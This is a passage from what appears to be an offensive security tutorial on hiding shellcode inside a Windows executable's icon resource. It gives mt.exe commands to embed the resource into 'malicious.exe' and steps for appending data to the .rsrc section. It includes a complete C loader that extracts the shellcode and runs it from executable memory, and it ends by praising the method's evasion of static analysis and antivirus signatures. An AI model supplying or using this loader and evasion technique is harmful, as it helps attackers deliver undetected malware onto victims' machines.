 3\. **Embed the Resource:**

- Use `mt.exe` to embed the compiled resource into your PE file:

```
mt.exe -manifest resource.res -outputresource:malicious.exe;1
```

**Option 3: Manual Embedding**

For a more programmatic approach (e.g., custom packers):

1. Open the PE file and locate the `.rsrc` section using tools like PE-Bear or a custom script.
2. Append the modified icon file directly to the `.rsrc` section in the binary.
3. Update the Resource Table to include a reference to the new icon.

#### Testing the Execution

To extract and execute the shellcode at runtime:

1. Use APIs like `FindResource`, `LoadResource`, and `LockResource` to locate and extract the embedded icon.
2. Extract the raw binary (shellcode) from the icon and execute it.

Example in C (runtime extraction and execution):

```
#include <windows.h>
void executeShellcodeFromResource() {
HRSRC hResource = FindResource(NULL, MAKEINTRESOURCE(101), RT_ICON); // ID 101, linked earlier
if (hResource == NULL) return;

HGLOBAL hLoadedResource = LoadResource(NULL, hResource);
void *shellcode = LockResource(hLoadedResource);
DWORD size = SizeofResource(NULL, hResource);

// Execute the shellcode
void *exec = VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(exec, shellcode, size);
((void (*)())exec)();
}

int main() {
executeShellcodeFromResource();
return 0;
}
```

* * *

**4. Advantages of This Technique**

- **Bypasses Static Analysis**: Shellcode hidden in an icon is less likely to be flagged during static analysis because the `.rsrc` section is typically ignored.
- **Stealthy Execution**: Shellcode extraction from legitimate resources appears as normal file operations in logs.
- **Evades AV Signatures**: Custom shellcode and its obfuscation make detection by signature-based systems more challenging.
